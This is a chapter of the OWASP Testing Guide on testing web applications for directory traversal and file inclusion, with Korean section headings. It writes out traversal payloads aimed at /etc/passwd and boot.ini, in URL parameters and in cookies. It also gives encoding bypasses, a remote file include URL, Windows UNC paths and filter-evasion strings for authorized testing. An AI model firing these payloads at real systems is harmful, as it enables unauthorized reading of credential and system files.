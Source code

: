 ==========================================================================================
OTG-AUTHZ-001 (디렉토리 트레버셜 및 파일 인클루트 테스트)
==========================================================================================

|

개요
==========================================================================================

Many web applications use and manage files as part of their daily operation. 
Using input validation methods that have not been well designed or deployed, an aggressor could exploit the system in order to read or write files that are not intended to be accessible. 
In particular situations, it could be possible to execute arbitrary code
or system commands.
Traditionally, web servers and web applications implement authentication
mechanisms to control access to files and resources.
Web servers try to confine users’ files inside a "root directory" or
"web document root", which represents a physical directory on the
file system. Users have to consider this directory as the base directory
into the hierarchical structure of the web application.
The definition of the privileges is made using Access Control Lists
(ACL) which identify which users or groups are supposed to be
able to access, modify, or execute a specific file on the server.
These mechanisms are designed to prevent malicious users from
accessing sensitive files (for example, the common /etc/passwd
file on a UNIX-like platform) or to avoid the execution of system
commands.
Many web applications use server-side scripts to include different
kinds of files. It is quite common to use this method to manage images,
templates, load static texts, and so on. Unfortunately, these
applications expose security vulnerabilities if input parameters (i.e.,
form parameters, cookie values) are not correctly validated.
In web servers and web applications, this kind of problem arises
in path traversal/file include attacks. By exploiting this kind of vulnerability,
an attacker is able to read directories or files which they
normally couldn’t read, access data outside the web document root,
or include scripts and other kinds of files from external websites.
For the purpose of the OWASP Testing Guide, only the security
threats related to web applications will be considered and not
threats to web servers (e.g., the infamous "%5c escape code" into
Microsoft IIS web server). Further reading suggestions will be provided
in the references section for interested readers.
This kind of attack is also known as the dot-dot-slash attack (../),
directory traversal, directory climbing, or backtracking.
During an assessment, to discover path traversal and file include flaws, testers need to perform two different stages:

a. Input Vectors Enumeration (a systematic evaluation of each input vector)
b. Testing Techniques (a methodical evaluation of each attack technique used by an attacker to exploit the vulnerability)

|

테스트 방법
==========================================================================================

|

Black Box Testing
-----------------------------------------------------------------------------------------

**Input Vectors Enumeration**

In order to determine which part of the application is vulnerable to
input validation bypassing, the tester needs to enumerate all parts
of the application that accept content from the user. This also includes
HTTP GET and POST queries and common options like file
uploads and HTML forms.

Here are some examples of the checks to be performed at this stage:

- Are there request parameters which could be used for file-related operations?
- Are there unusual file extensions?
- Are there interesting variable names?

.. code-block:: console

    http://example.com/getUserProfile.jsp?item=ikki.html
    http://example.com/index.php?file=content
    http://example.com/main.cgi?home=index.htm

- Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?

.. code-block:: console

    Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:-
    TEMPLATE=flower
    Cookie: USER=1826cc8f:PSTYLE=GreenDotRed

:Testing Techniques:

The next stage of testing is analyzing the input validation functions
present in the web application. Using the previous example, the dynamic
page called getUserProfile.jsp loads static information from a
file and shows the content to users. An attacker could insert the malicious
string "../../../../etc/passwd" to include the password hash file of
a Linux/UNIX system. Obviously, this kind of attack is possible only if
the validation checkpoint fails; according to the file system privileges,
the web application itself must be able to read the file.
To successfully test for this flaw, the tester needs to have knowledge
of the system being tested and the location of the files being requested.
There is no point requesting /etc/passwd from an IIS web server.

.. code-block:: console

    http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

For the cookies example:

.. code-block:: console

    Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd

It’s also possible to include files and scripts located on external website.

.. code-block:: console

    http://example.com/index.php?file=http://www.owasp.org/malicioustxt

The following example will demonstrate how it is possible to show
the source code of a CGI component, without using any path traversal
characters

.. code-block:: console

    http://example.com/main.cgi?home=main.cgi


The component called "main.cgi" is located in the same directory as
the normal HTML static files used by the application. In some cases
the tester needs to encode the requests using special characters (like
the "." dot, "%00" null, ...) in order to bypass file extension controls or to
prevent script execution.

Tip: It’s a common mistake by developers to not expect every form of
encoding and therefore only do validation for basic encoded content.
If at first the test string isn’t successful, try another encoding scheme.
Each operating system uses different characters as path separator:

Unix-like OS:

.. code-block:: console

    root directory: "/"
    directory separator: "/" 

Windows OS:

.. code-block:: console

    root directory: "<drive letter>:"
    directory separator: "/"

Classic Mac OS:

.. code-block:: console

    root directory: "<drive letter>:"
    directory separator: ":"

We should take in to account the following character encoding
mechanisms:

- URL encoding and double URL encoding

.. code-block:: console

    %2e%2e%2f represents ../
    %2e%2e/ represents ../
    ..%2f represents ../
    %2e%2e%5c represents ..\
    %2e%2e\ represents ..\
    ..%5c represents ..\
    %252e%252e%255c represents ..\
    ..%255c represents ..\ and so on.


- Unicode/UTF-8 Encoding (it only works in systems that are able to accept overlong UTF-8 sequences)

.. code-block:: console

    ..%c0%af represents ../
    ..%c1%9c represents ..\

There are other OS and application framework specific considerations
as well. For instance, Windows is flexible in its parsing of
file paths.

- Windows shell: Appending any of the following to paths used in a shell command results in no difference in function:
- Angle brackets ">" and "<" at the end of the path
- Double quotes (closed properly) at the end of the path
- Extraneous current directory markers such as "./" or ".\\"
- Extraneous parent directory markers with arbitrary items that may or may not exist

Examples:

.. code-block:: console

    – file.txt
    – file.txt...
    – file.txt<spaces>
    – file.txt""""
    – file.txt<<<>>><
    – ./././file.txt
    – nonexistant/../file.txt 

- Windows API: The following items are discarded when used in any
shell command or API call where a string is taken as a filename:

.. code-block:: console

    periods
    spaces

• Windows UNC Filepaths: Used to reference files on SMB shares.
Sometimes, an application can be made to refer to files on a remote
UNC filepath. If so, the Windows SMB server may send stored
credentials to the attacker, which can be captured and cracked. These
may also be used with a self-referential IP address or domain name
to evade filters, or used to access files on SMB shares inaccessible to
the attacker, but accessible from the web server.

.. code-block:: console

    \\server_or_ip\path\to\file.abc
    \\?\server_or_ip\path\to\file.abc

• Windows NT Device Namespace: Used to refer to the Windows
device namespace. Certain references will allow access to file
systems using a different path.
• May be equivalent to a drive letter such as c:\, or even a drive volume
without an assigned letter.

.. code-block:: console

    \\.\GLOBALROOT\Device\HarddiskVolume1\

Refers to the first disc drive on the machine.

.. code-block:: console

    \\.\CdRom0\

|

Gray Box testing
-----------------------------------------------------------------------------------------

When the analysis is performed with a Gray Box approach, testers
have to follow the same methodology as in Black Box Testing. However,
since they can review the source code, it is possible to search
the input vectors (stage (a) of the testing) more easily and accurately.
During a source code review, they can use simple tools (such as the
grep command) to search for one or more common patterns within
the application code: inclusion functions/methods, filesystem operations,
and so on

.. code-block:: console

    PHP: include(), include_once(), require(), require_once(), fopen(),
    readfile(), ... 
    JSP/Servlet: java.io.File(), java.io.FileReader(), ...
    ASP: include file, include virtual, ...

Using online code search engines (e.g., Ohloh Code[1]), it may also be
possible to find path traversal flaws in Open Source software published
on the Internet.
For PHP, testers can use:

.. code-block:: console

    lang:php (include|require)(_once)?\s*[‘"(]?\s*\$_
    (GET|POST|COOKIE)

Using the Gray Box Testing method, it is possible to discover vulnerabilities
that are usually harder to discover, or even impossible to find
during a standard Black Box assessment.
Some web applications generate dynamic pages using values and parameters
stored in a database. It may be possible to insert specially
crafted path traversal strings when the application adds data to the
database. This kind of security problem is difficult to discover due to
the fact the parameters inside the inclusion functions seem internal
and "safe" but are not in reality.
Additionally, by reviewing the source code it is possible to analyze the
functions that are supposed to handle invalid input: some developers
try to change invalid input to make it valid, avoiding warnings and errors.
These functions are usually prone to security flaws.
Consider a web application with these instructions:

.. code-block:: console

    filename = Request.QueryString("file");
    Replace(filename, "/","\");
    Replace(filename, "..\","");

Testing for the flaw is achieved by:

.. code-block:: console

    file=....//....//boot.ini
    file=....\\....\\boot.ini
    file= ..\..\boot.ini 

|

Tools
==========================================================================================

• DotDotPwn - The Directory Traversal Fuzzer - http://dotdotpwn.sectester.net
• Path Traversal Fuzz Strings (from WFuzz Tool) - http://code.google.
com/p/wfuzz/source/browse/trunk/wordlist/Injections/Traversal.txt
• Web Proxy (Burp Suite[2], Paros[3], WebScarab[4],OWASP: Zed Attack
Proxy (ZAP)[5])
• Enconding/Decoding tools
• String searcher "grep" - http://www.gnu.org/software/grep/

|

References
==========================================================================================

Whitepapers
• phpBB Attachment Mod Directory Traversal HTTP POST Injection -
http://archives.neohapsis.com/archives/fulldisclosure/2004-12/0290.
html[6]
• Windows File Pseudonyms: Pwnage and Poetry - http://www.slideshare.net/BaronZor/windows-file-pseudonyms[7]